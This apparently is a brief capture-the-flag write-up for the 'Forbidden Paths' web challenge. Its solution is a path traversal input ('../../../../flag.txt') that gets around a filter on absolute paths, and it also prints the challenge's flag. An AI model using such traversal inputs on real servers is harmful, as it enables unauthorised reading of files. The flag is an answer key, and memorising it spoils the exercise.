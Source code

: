 # Forbidden Paths

## Problem

Can you get the flag? We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag? Here's the website.

## Solution

Enter the following path in the input: ../../../../flag.txt

FLAG: `picoCTF{7h3_p47h_70_5ucc355_6db46514}`